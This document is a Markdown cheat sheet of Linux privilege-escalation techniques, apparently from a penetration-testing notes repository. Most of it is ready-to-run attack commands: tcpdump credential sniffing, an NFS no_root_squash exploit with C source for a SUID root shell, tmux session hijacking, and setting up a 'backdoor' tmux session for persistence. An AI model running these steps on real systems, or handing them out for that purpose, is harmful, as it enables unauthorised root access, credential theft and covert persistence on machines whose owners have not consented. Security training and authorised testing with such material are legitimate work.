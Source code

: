 # 🔧 Miscellaneous Techniques

## 🎯 Overview

Additional Linux privilege escalation techniques including traffic capture, NFS exploitation, and tmux session hijacking for comprehensive privilege escalation coverage.

## 📡 Passive Traffic Capture

### Network Sniffing for Credentials
```bash
# Check if tcpdump available and usable
which tcpdump
tcpdump --version

# Capture network traffic
tcpdump -i any -w capture.pcap

# Real-time credential hunting
tcpdump -i any -A | grep -E "(password|user|login|auth)"

# Capture specific protocols
tcpdump -i any port 21    # FTP
tcpdump -i any port 23    # Telnet  
tcpdump -i any port 80    # HTTP
```

### Tools for Credential Extraction
```bash
# net-creds - extract credentials from pcap
python net-creds.py capture.pcap

# PCredz - real-time credential extraction
python PCredz.py -i eth0

# Manual analysis
strings capture.pcap | grep -i "password\|user"
```

## 🗂️ Weak NFS Privileges

### NFS Export Enumeration
```bash
# Check NFS exports
showmount -e target_ip

# Example output:
# /tmp             *
# /var/nfs/general *
```

### Check NFS Configuration
```bash
# View NFS exports configuration
cat /etc/exports

# Look for dangerous options:
# no_root_squash - Root on client = root on server
# Example: /tmp *(rw,no_root_squash)
```

### NFS Privilege Escalation
```bash
# 1. Create SUID shell on attacker machine (as root)
cat > shell.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
EOF

# 2. Compile shell
gcc shell.c -o shell

# 3. Mount NFS share on attacker machine (as root)
sudo mount -t nfs target_ip:/tmp /mnt

# 4. Copy shell and set SUID
sudo cp shell /mnt/
sudo chmod u+s /mnt/shell

# 5. Execute SUID shell on target
./shell  # Now running as root
```

## 📺 Tmux Session Hijacking

### Find Tmux Sessions
```bash
# Check for running tmux processes
ps aux | grep tmux

# Look for tmux sockets
ls -la /tmp/tmux-*
find / -name "*tmux*" 2>/dev/null

# Check socket permissions
ls -la /shareds  # Custom socket location
```

### Session Hijacking
```bash
# List available sessions
tmux list-sessions

# Attach to existing session
tmux attach-session -t session_name

# Attach to socket with custom path
tmux -S /shareds attach

# Example: If socket has weak permissions
# srw-rw---- 1 root devs 0 Sep 1 06:27 /shareds
# And you're in devs group: tmux -S /shareds
```

### Create Hijackable Session (for persistence)
```bash
# Create shared session as privileged user
tmux -S /tmp/shared new -s backdoor
chown root:group /tmp/shared

# Later hijack as group member
tmux -S /tmp/shared attach
```

## 🔍 Detection & Enumeration

### Miscellaneous Techniques Check
```bash
#!/bin/bash
echo "=== MISCELLANEOUS TECHNIQUES ENUMERATION ==="

echo "[+] Network capture capabilities:"
which tcpdump wireshark tshark 2>/dev/null

echo "[+] NFS exports (if NFS client available):"
which showmount 2>/dev/null && echo "Can enumerate NFS"

echo "[+] Running tmux sessions:"
ps aux | grep tmux

echo "[+] Tmux sockets:"
find / -name "*tmux*" 2>/dev/null | head -5

echo "[+] Network file shares:"
mount | grep -E "(nfs|cifs|smb)"

echo "[+] Interesting network connections:"
netstat -an | grep -E ":21|:23|:80|:139|:445|:2049"
```

### NFS Specific Enumeration
```bash
# Check for NFS mounts
mount | grep nfs

# NFS exports on localhost
showmount -e localhost
showmount -e 127.0.0.1

# Check /etc/exports for misconfigurations
cat /etc/exports | grep "no_root_squash"
```

## 🚀 Quick Exploitation Reference

### Immediate Opportunities
```bash
# Tmux session hijack
ps aux | grep tmux && ls -la /tmp/tmux-* /shareds 2>/dev/null

# NFS no_root_squash check
showmount -e localhost | grep -q "/" && cat /etc/exports

# Traffic capture test
timeout 10 tcpdump -i any -c 10 2>/dev/null && echo "Traffic capture possible"
```

### Emergency Techniques
```bash
# Quick tmux hijack
tmux list-sessions 2>/dev/null && tmux attach

# NFS quick check
mount | grep nfs && ls -la /mnt/nfs/ 2>/dev/null

# Basic traffic monitoring
tcpdump -i any -A -c 20 | grep -i "password\|login"
```

## 🔑 Key Points

### Traffic Capture Value
- **Cleartext protocols** - HTTP, FTP, Telnet, SMTP
- **Authentication hashes** - NTLM, Kerberos for cracking
- **SNMP community strings** - Network device access
- **Database connections** - Application credentials

### NFS Exploitation Impact
- **SUID binary upload** - Direct root privilege escalation
- **Configuration modification** - System file access
- **Data exfiltration** - Sensitive file access

### Tmux Session Benefits
- **Inherited privileges** - Session creator's permissions
- **Persistent access** - Session survives disconnection
- **Command history** - Previous commands and data
- **Active processes** - Running privileged tasks

---

*Miscellaneous techniques cover edge cases and specialized scenarios - traffic capture, NFS misconfigurations, and session hijacking provide additional privilege escalation vectors in specific environments.* 